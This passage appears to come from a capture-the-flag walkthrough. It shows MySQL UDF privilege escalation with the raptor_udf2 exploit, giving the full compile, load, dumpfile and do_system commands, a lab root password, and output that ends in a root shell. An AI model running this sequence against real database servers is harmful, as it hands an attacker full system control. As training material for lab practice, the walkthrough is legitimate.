


we get the root id and password:
we also see that the sql version:

we get the exploit: https://www.exploit-db.com/exploits/1518
then:
copy raptor_udf2.c to smeagol home directory and follow below steps
* gcc -g -c raptor_udf2.c
* gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
* mysql -u root -p #login with the password darkshadow
* mysql> use mysql;
* mysql> create table foo(line blob);
* mysql> insert into foo values(load_file(‘/home/smeagol/raptor_udf2.so’));
* mysql> select * from foo into dumpfile ‘/usr/lib/raptor_udf2.so’;
* mysql> create function do_system returns integer soname ‘raptor_udf2.so’;
* select * from mysql.func;
* select do_system(‘id > /tmp/out; chown raptor.raptor /tmp/out’);
* \! sh
* id
uid=0(root) gid=0(root) groups=0(root)